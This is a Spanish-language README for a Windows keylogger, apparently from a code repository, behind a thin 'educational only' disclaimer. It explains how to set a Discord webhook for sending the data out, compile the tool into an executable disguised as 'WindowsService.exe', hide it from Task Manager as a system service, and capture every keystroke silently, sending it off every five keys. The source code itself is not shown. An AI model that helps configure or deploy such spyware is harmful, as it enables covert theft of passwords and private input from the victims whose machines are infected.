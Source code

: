 # Keylogger para Windows

**⚠️ ADVERTENCIA: Este software es solo para fines educativos. El uso de keyloggers sin autorización es ilegal.**

## Características

- Webhook hardcodeado en el código
- Se ejecuta automáticamente en segundo plano
- Se oculta del administrador de tareas
- Envía datos capturados al webhook cada 5 teclas
- Se puede compilar a ejecutable
- Funciona sin interfaz gráfica

## Configuración

### 1. Configurar el Webhook

Abre `main.py` y reemplaza la línea 12:

```python
self.webhook_url = "https://discord.com/api/webhooks/TU_WEBHOOK_AQUI"
```

Con tu webhook real:

```python
self.webhook_url = "https://discord.com/api/webhooks/1234567890/abcdefghijklmnopqrstuvwxyz"
```

### 2. Instalar Dependencias

```bash
pip install -r requirements.txt
```

## Uso

### Opción 1: Ejecutar como Script Python

```bash
python main.py
```

### Opción 2: Compilar a Ejecutable

1. **Compilar:**
```bash
build.bat
```

2. **El ejecutable estará en:** `dist\WindowsService.exe`

3. **Ejecutar el .exe** y funcionará automáticamente

## Funcionamiento

- **Ejecución automática**: Se inicia inmediatamente sin interfaz
- **Ocultación**: Se oculta del administrador de tareas como "Windows System Service"
- **Registro silencioso**: Captura todas las teclas sin mostrar nada
- **Envío automático**: Envía datos al webhook cada 5 teclas
- **Segundo plano**: Funciona completamente en segundo plano

## Características del Webhook

- Envía mensajes formateados con emojis
- Incluye timestamp de cada tecla
- Muestra estadísticas de captura
- Funciona completamente en silencio

## Notas Importantes

- Solo funciona en Windows
- Requiere permisos de administrador para algunas funciones
- El webhook debe estar configurado correctamente en el código
- Los datos se envían cada 5 teclas capturadas
- Se puede detener con ESC (si se detecta)
- El ejecutable se ejecuta automáticamente sin mostrar nada

## Estructura de Archivos

```
KEYLOGGER/
├── main.py              # Código principal (configurar webhook aquí)
├── requirements.txt     # Dependencias
├── build.bat           # Script de compilación
└── README.md           # Este archivo
``` 